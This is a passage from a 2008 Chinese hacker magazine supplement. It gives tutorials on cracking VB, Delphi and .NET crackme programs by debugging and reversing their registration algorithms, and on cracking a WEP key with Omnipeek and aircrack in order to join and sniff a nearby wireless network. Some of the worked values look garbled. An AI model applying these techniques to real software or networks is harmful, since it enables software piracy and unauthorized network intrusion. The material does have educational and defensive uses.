不管它，继续点面板上的“K”按钮，也或者可以使用快捷键 Alt + K，打开后如图 79 所示。


图 79

[PAGE 192]

# 边破边解 --CRACKER 实例大全

看到最后一行，双击后就会来到如下代码位置：

```
00404878    FF15 30104000   call dword ptr ds.[<&MSVBVM60.#595>] ; MSVBVM60.rtcMsgBox
0040487E    8D55 90           lea edx,dword ptr ss:[ebp-70]
```

看看这里和前面找到的是不是一样呢？F 1 2 暂停法也适用于其他程序，有兴趣不妨试试。

### 方法三：

使用VBExplorer 1.0来确定事件按钮。VBExplorer 前身为 VBEditor，是一个反编译 VB 程序的应用程序，具有以下特性：

+   1、目前已可以解析VB自身所有控件的属性，并进行编辑（包括字体的修改、背景颜色的修改、图片的保存和替换等）和导出（包括工程文件和图片文件）；
2、可以对P-Code编译的程序进行代码解析，此功能正在不断完善；
3、搜索函数使用的Unicode字符串，并进行编辑。

使用VBExplorer 1.0载入程序，打开“窗体”，发现“Form1”是程序主界面的地方，继续找到事件按钮，如图80所示。


发现事件按钮为0x004044D0，这时只需要在OD中载入程序，ctrl+G定位到0x004044D0地址处，也同样可以找到切入点。

好了，三种方法介绍完了，相信以后对于VB编写的程序，也不应该害怕了，而只有程序怕你，嘿嘿！有这自信吗？

随便你选择以上一种方法来到下面代码处：

```
004045F3    FFD6               call esi
004045F5    83F8 05            cmp eax,5 ; 用户名
004045F8    OF8D 85000000      jge VB-crack.00404683 ; 大于或等于就跳
004045FE    8B1D 9C104000      mov ebx,dword ptr ds.[<&MSVBVM60._vbaVar>; MSVBVM60._vbaVarDup
......………
0040465C    51                  push ecx
0040465D    FF15 30104000      call dword ptr ds.[<&MSVBVM60.#595>] ; MSVBVM60.rtcMsgBox // 如果用户
名小于5位.会出现提示框 ...............
0040469D    BE 01000000        mov esi,1
004046A2    66.3BB5 3CFFFF>cmp si,word ptr ss:[ebp-C4] ; 比较用户名位数
004046A9    OF8F 82000000      jg VB-crack.00404731
......………
004046EE    50                  push eax
004046EF    FF15 0C104000      call dword ptr ds.[<&MSVBVM60.#693>] ; MSVBVM60.rtcByteValueBstr // 这里
```

[PAGE 193]

# 非安全·黑客手册2008第一增刊

取用户名的ASCII值

```
00404776    8BD0              mov edx,eax        ; eax保存注册码
00404778    8D4D D4           lea ecx,dword ptr ss:[ebp-2C]
0040477B    FF15 A4104000    call dword ptr ds:[<&MSVBVM60._vbaStrMov>; MSVBVM60._vbaStrMove
00404781    8B55 D8           mov edx,dword ptr ss:[ebp-28]
00404784    50                push eax          ; 真码压栈
00404785    52                push edx          ; 假码压栈
00404786    FF15 4C104000    call dword ptr ds.[<&MSVBVM60._vbaStrCmp>; MSVBVM60._vbaStrCmp  /// 真假注册码比较
....................
004047CA    /74 62            je short VB-crack.0040482E  /// 爆破点
```

到这里代码基本是分析完毕了，算法很简单，就是将用户名的ASCII值累加起来形成注册码。还看不懂？没关系！我给你详细计算一下：nohack的ASCII值分别是6E、6F、68、61、63、6B，将它们加起来得到的16进制值是274，再转换为10进制就是628了。所以经过分析计算得到的注册信息是：

Name: nohack

Code: 628

拿去试一下，结果如图81所示，成功了！怎么样？第一次的算法分析感觉如何？


通过本实例可以学习到什么呢？

+   - 第一，VB的三种切入点破解技巧；- 第二，VBExplorer 1.0的使用方法；- 第三，简单的自行设计的注册算法分析。

[PAGE 194]

# 边破边解 --CRACKER 实例大全

### 5.2 实例十

本实例是一个使用delphi编写的crackme程序，运行程序，随便输入点什么进去，发现没有错误提示！难道没提示就找不到切入点了吗？非也！本实例中，我将通过两种方法来展示如何找到delphi的切入点。

### 方法一：使用超级字符串插件。

OD 一个非常好的地方就是支持插件，一些热心人士为了更好地使用OD，都纷纷编写出不少好的插件，其中超级字符串插件就是一个非常出名的OD插件。使用OD载入程序后，在代码窗口按鼠标右键选择字符串插件，这时候就可以搜索字符串了，得到的结果如图82所示。


我们可以看见搜索到了“注册码正确”、“注册码不对”、“请输入完整的注册信息”等信息，这个就是切入点的关键。在“请输入完整的注册信息”处双击就可以到代码窗口的代码中去了，很快就可以找到切入点。

### 方法二：使用delphi破解利器——dede。

Dede是针对delphi和B C B的反汇编工具，它可以很透彻的分析出delphi和B C B程序的各个事件。通过d e d e 分析出来的结果，可以很容易的找到按钮事件地址，从而达到快速得到切入点的效果。运行d e d e 后其界面如图83所示。


通过“浏览”按钮可以载入程序，另外d e d e 也支持直接拖放功能，就是说可以直接把程序拖进d e d e 里面。在载入程序后，点击“开始处理”，d e d e 就会马上工作起来，当分析完成后，会出现如图84所示的对话框。


一般点“n o ”就可以了，这样可以缩短分析时间。使用d e d e ，

# 边破边解 --CRACKER 实例大全

```
00453A9F E9 16010000 jmp DELPHI_c.00453BBA
```

在代码后面我写有详细的注释，这是一个非常典型的 F(name)=F(code)算式。别小看这么短的语句，但在很多软件中是会出现的。相信你看着代码也可能眼花，我给各位读者解释一下吧！

> 首先是将用户名的ASCII值累加得到一个结果，我设为A，再将注册码的ASCII值累加得到另一个结果，我设为B。接着将A与B进行异或运算得到一个结果，我设为C。最后看C与7D5是否相等，相等就注册成功，反之则失败。

现在我写个算式：A xor B = C，而C又等于7D5，则A xor B = 7D5h。而在这个算式中，A可以看作是已知的（当然你也可以将B看作是已知的），用户名nohack的ASCII值经过累加后结果为274h，所以B = 274h xor 7D5h。经过计算B = 5A1h，10进制为1441，这时你千万不要以为1441就是注册码，为什么呢？还记得B代表的是什么吗？B代表的是注册码ASCII值的累加，所以注册码的ASCII值只要相加等于1441才是真正的注册码。

那注册码怎么算呢？有现成的就捡现成的算吧，不用那么麻烦。记得nohack的ASCII累加值为274h吧？那么274h+274h=4E8h，再使用5A1h−4E8h=B9h，而78h+41h=B9h，所以最终得到的注册码为nohacknohackxA。整理后为:

Name: nohack
Code: nohacknohackxA

拿去试一试，结果如图86所示，注册成功。


注册算法分析需要的是耐心，而且有时候还需要那么一点逆向思维，如本实例。这个算法要比前一个算法稍微难了一点点，但是只要耐心点，成功还是会出现的。

通过本实例可以学习到什么呢？

> 第一．两种方法找出delphi的切入点；第二．dede的使用方法；第三．进一步学习算法分析；第四．学习逆向性思维计算注册码。

### 5.3 实例十一

本实例是一个使用.net 编写出来的crackme程序，使用Peid扫描后，查壳信息如图87所示。可以看到“Microsoft Visual C# / Basic .NET”字样，这就是使用.net编写的程序了。如果你没有安装 Microsoft.NET Framework v2.0环境的话，那么是不可能运行起来的，所以如果你想实践本实例，需要安装.net 环境。

运行程序，在注册的地方随便输入点什么进行注册，会出现错误提示，如图88 所示。

# 非安全·黑客手册2008第一增刊


使用OD来对付.net程序并不是最好的方法，所以这里介绍一个.net的反编译工具——Reflector，到写稿为止最新的版本是5.1.2.0。默认情况下，Reflector会打开一组公共程序集(mscorlib、System、System.Data、System.Drawing等等)，如图89所示。


通过Reflector的反编译功能，要研究.net框架基类库就容易多了。我们完全可以在没有源代码的情况下，研究我们所创建或者正在使用的程序的相应源代码。更详细的资料大家可以自行搜索，我这里就不啰嗦了。

运行Reflector后，在菜单栏点击 “file->open”，载入需要分析的程序就行了。通过分析，发现check_button_Click(object sender, EventArgs e)是关键性地方，如图90所示。

双击 “check_button_Click” 这一行就可以获得反汇编后的代码了，具体代码如下：

```
private void check_button_Click(object sender, EventArgs e)
{
    if (this.name_textbox.TextLength < 6) // 如果用户名长度小于6
    {
        Interaction.MsgBox("Please enter a name with at least 6 letters", MsgBoxStyle.Critical, "Error"); // 跳到这里提示
    }

```

# 边破边解 --CRACKER 实例大全

```
 } else if (this.serial_textbox.TextLength != 0x13) // 注册码长度为19位
 { 
 this.kill(); // 否则失败
 } else 
 { 
 string sString = Strings.LCase(Strings.Trim(this.name_textbox.Text)); // 用户名最终为小写
 sString = this.sha1("pQr5" + sString + "aZk9"); // 将pQr5连接用户名，再连接aZk9后，进行sha1运算
 string str3 = this.toltr(sString); // 取sString的字母
 string str5 = this.tonum(sString); // 取sString的数字
 string str = Strings.Mid(str3, 1, 4); // 取str3的前四位
 string str6 = Strings.Mid(str5, str5.Length - 3, 4); // 取str5长度减3后的连续4位
 string str8 = Strings.Mid(str3, str3.Length - 3, 4); // 取str3长度减3后的连续4位
 string str2 = Strings.Mid(Convert.ToString((double)(Convert.ToDouble(Strings.Mid(str5, 1, 8)) * this.name_textbox.TextLength), 2, 4); // str5的前8位 * 用户名长度后，在结果中从第2位开始连续取4位
 string str7 = Strings.UCase(str + "-" + str6 + "-" + str8 + "-" + str2); // 将上面结果连接起来并转为大写
 if (this.serial_textbox.Text ==
```


在代码后我已经详细的注释了，但是还是非常担心大家可能看得不太明白，下面将使用
用户名nohackno给大家演示整个计算过程：

+   - 第一步. 输入用户名位数必须大于6. 需要7位或者以上. 如果是大写的话将会转为小写计算;
- 第二步. 固定字符串与用户名连接, 结果为pOr5nohackaZk9;

# 非安全·黑客手册 2008 第一增刊

第三步. 将pOr5nhacknoaZk9 进行sha1运算, 结果为d2b4a92faa74e376b7ecaf71cbef86e2fd79544, 为了表达方便, 我记为A; 第四步, 取A的字母, 结果为dbafaebecaffcbefefd, 记为B; 第五步, 取A的数字, 结果为24927437677186279544, 记为C; 第六步, 取B的前四位, 结果为dbaf; 第七步, 取C长度减3后位数的连续4位, 即C最后四位, 结果为9544; 第八步, 取B长度减3后位数的连续4位, 即B最后四位, 结果为fefd; 第九步, 取C前8位乘以用户名长度, 即04573068*8=199419496; 第十步, 取第九步结果的第2到4位; 第十一步, 将上面结果以“-”连接起来, 字母小写并转为大写, 最终结果为DBAF–9544–FEFD–9941。

通过以上每一步的计算, 我们得到一组注册信息：

Name : nohackno
Code : DBAF-9544-FEFD-9941

拿去进行注册, 结果如图9 1 所示, 注册成功。


其实, 如果你懂点C # 语言的话, 完全可以将上面得到的反汇编代码稍微修改一下, 做出算法注册机完全不是问题。不过, 这活就交给大家自己完成了, 我这里就不介绍了。通过本实例可以学习到什么呢？

# 提示

+   第一, Reflector的使用方法; 第二,.net 的破解技巧; 第三, 代码的分析阅读。

通过本章的教程, 希望大家能从中获取或者学习到一些必备的软件破解知识, 由于时间和技术水平关系, 也欢迎大家能够对本文的不足之处提供宝贵的意见和建议。

## 就在你隔壁——无线破解初体验


# 非安全·黑客手册2008第一增刊

现在无线领域可是非常受大家的喜爱，因为我们可以摆脱物理线路的束缚，在自由的“空气信息电波”中畅游。现在，许多无线网络应用也开始流行起来。在享受自由方便的同时，你是否考虑过安全呢？无线网络安全的主要方面就是针对 A P（接入点）的认证密码破解，而基于破解的手法层出不穷，本文只挑出一、两种方法来介绍一下，让大家有一个感性的认识。

### 一、了解知识点

首先要跟大家解释一下，无线网络破解所使用的程序是需要硬件配合的，所以大家在选择程序时最好先弄清楚该程序所支持的硬件。为了大家在试验文章中所说的无线网络破解操作时不会因为驱动的问题而导致无法进行，所以我也就把相关驱动打包放到光盘里了。
先看看本文中所使用的硬件设备：

+   1. DELL 640M 笔记本电脑所配 Intel 3945 ABG 无线网卡
2. IBM T40 笔记本电脑所配 Cisco AIR–CB21AG–A–K9 无线网卡

因为两个本本的网卡本身有着一定的区别，所以使用的程序都不一样，但是所有的操作都是基于 Windows 下的。首先我们用 DELL 640M 自带的 3945 ABG 网卡做一个测试，无线破解和我们平常的服务器入侵差不多，也是需要针对目标进行勘察。通常我们都是使用无线网络扫描工具 Network Stumbler 进行目标信息的勘察的，如图 1 所示。


我们可以看到 Network Stumbler 显示出了一个活动无线 AP，从列表当中可以看到无线 AP 的 MAC、SSID、通道、速度以及加密类型。

小知识 首先我要在这里做一下知识点的巩固，MAC 地址在一些无线术语当中是叫 BSSID，而 SSID 也叫 ESSID，通道就是 Channel 或者 CH。加密类型通常是分为 WEP、WPA–PSK、WPA2，还有国内一枝独秀的 WAPI。
有一点要注意，因为 Network Stumbler 有一个 BUG，就是不管 AP 使用以上哪种加密模式，Network Stumbler 都会显示加密类型为 WEP。由于加密的类型不一样，我们在使用程序的时候也会有所不一样，请大家注意一下。

## 就在你隔壁——无线破解初体验

当看到Network Stumbler显示我们的目标AP信息之后，可以从两个地方看到目标与我们之间的距离长度。比如从Network Stumbler的信号强度来判断出目标是否与我们很近，如图2所示。


从图2中我们可以看到，信号与我们的距离基本上不会超过10米，这样子的的话，对于我们的无线密码验证破解来说是最好的条件之一。当我们把目标AP所有的信息都确定好之后，就可以开始进行无线密码验证破解的操作了。

因为Intel 3945 ABG在Windows环境下暂时只有Omnipeek可以支持无线嗅探功能，所以只能够借助omnipeek完成我们的数据包嗅探工作。而且程序对于3945 ABG的驱动有一定的要求，必须是要版本在10.5.1.72以上！还得必须要关掉Intel无线管理工具才可以。

当符合以上条件后，我们就可以在Omnipeek看到如图3所示的提示，在“wildpacket API”当中可以看到YES，这样就代表程序已经可以支持现有的驱动版本了。

| Property | Description |
| --- | --- |
| Device | Intel(R) PRO/Wireless 3945ABG Network... |
| Media | Wireless 802.11 |
| Address | 00:19:D2:2C:B6:E3 |
| Link Speed | 54 Mbits/s |
| WildPackets API | Yes |

### 二、抓取数据包

现在我们开始进行无线破解，首先打开Omnipeek，然后选择“New Capture”，弹出一个对话框，如图4 所示。

在“General”大项当中，我们必须要更改的一项就是“Buffer Size”，这个必须要修改为100M，因为这样可以抓到更多的数据包，从而进行无线密码验证的破解。

当“General”大项处理好之后，就要从“802.11”大项当中选择填写我们需要破解的目标AP信息了，如图5所示。

# 非安全·黑客手册2008第一增刊


“802.11”大项当中“Number”选项的意思就是选择目标的所在信道（Channel）。从刚才的勘察信息中可以看到，目标的AP信道为1。其中的“BSSID”和“ESSID”已经在前面给大家介绍了，这里略过。

该大项有一个特点，就是只能够从选项当中选择一个作为目标的辨识。这里我建议大家在一个存在多AP信号的网络中，最好就是设置BSSID或者ESSID作为目标的辨识，有便于更加精准而且节省Buffer Size的利用。

在该大项中还可以看到一个“Encryption”选项类，这个就是给予用户在知道网络验证方式以及密码的情况下，输入验证方式以及密码，从而以合法身份进行内网嗅探。

这个功能我们稍后再说，接下来的这一步就是最主要的了，设置过滤器把有用的信息进行过滤收集，排除没用的信息减少Buffer Size的增加，如图6所示。

Omnipeek暂时只能够破解WEP加密，所以我们只需要把整个无线网络当中的“802.11

## 就在你隔壁——无线破解初体验

WEP DATA”数据包进行拦截并且记录就OK了！


但是在默认的“Filters”大项当中，是不存在“802.11 WEP DATA”的，所以我们必须进入“Filters”大项，然后按鼠标右键选择“Insert”，这样就可以选择有关“802.11 WEP DATA”的数据包了，如图7所示。


从图7中我们看到，可以输入“802.11 WEP DATA”，Color也可以随便选择，但“Address Filter”就不需要选择了，因为这样会影响我们在使用时候的通用性。最主要的就是记住勾选“Protocol filter”并选为“802.11 WEP Data”。

这样设置后，过滤的新建就完成了。只要我们点击O K 就可以完成整个嗅探的前期配置，最漫长最重要的过程就要开始了，那就是抓取数据包。

这个过程是很漫长的，而且是需要极大的耐性。如果我们的目标没有任何人在客户端使用的话，就无法在正常的情况下抓取足够的数据包，因为无线破解是需要足够的数据包作为破解依据的，如图8、图9 所示。

我们从图9中就可以看到整个抓取过程，数据在不断的增长，而Memory usage也不断的增长，每增加一个百分比就代表Buffer Size在增加多少。

# 非安全·黑客手册2008第一增刊


在我们抓取数据包的过程中，可以点击顶部工具栏的 “Wireless Statistics”（倒数第四个按钮），这个功能可以更加直观的看到目标 A P 的信息以及其客户端列表。


当我们抓取完足够的数据包之后，就要把数据包保存为一个可以让破解工具读取的格式。首先选择 “Save All Packet”，然后选择为 “Libpcap” 格式，如图10所示，这样就可以让 Winaircrack 进行密码的破解了。

当保存完毕之后，程序就会在我们所设置的目录下生成一个后缀为 d m p 的文件，这个就是我们用来进行破解使用的数据包。

有些读者会问，那要多大的数据包才能保证破解效率呢？通常来说，越大的数据包就越容易快速破解。通常你可以等待 omnipeek 自动停止抓包，如果你觉得时间太漫长的话，可以选择数据包为5 0 0 0 0 的时候停止，这样基本上密码还是

## 非安全·黑客手册2008第一增刊

当全部选择完毕之后，我们可以点击“aircrack the key”，这样目标AP的密码很快就出现在眼前了，如图13所示。

我自己的密码设置得比较简单，不到一秒的时间就破解出来了，为了验证密码是否成功，我们用omnipeek的密码输入功能进行测试。

进入omnipeek，在“Capture Options”中的“802.11”大项处选择“Encryption”小项的“Edit key sets”按钮，之后“insert”一个key，“name”就随便写，然后“Key Type”就选择我们刚刚破解出来的“WEP 64-bits”，而“Key 1”就填写破解出来的密码“3534333231”，如图14所示。

有些朋友会问，为什么破解出来的密码有两个，一个是3534333231，而另外一个54321了？因为前一个是HEX (16进制)，而后一个就是纯明文的。由于Omnipeek只支持HEX，所以我只好填写H E X进去了！实际上两个密码都是一样的。填写完后点O K 就可以进行测试了。

这样我们就完完全全接入了目标的A P，而且还可以进行内网的嗅探，并可以看到内网用户在访问什么页面及其IP信息。

整个过程就到这里结束了！本文只是很简单的介绍了有关WEP密码破解的操作，还有更多更新颖多变的手法在等待大家的挖掘，我们一起努力吧！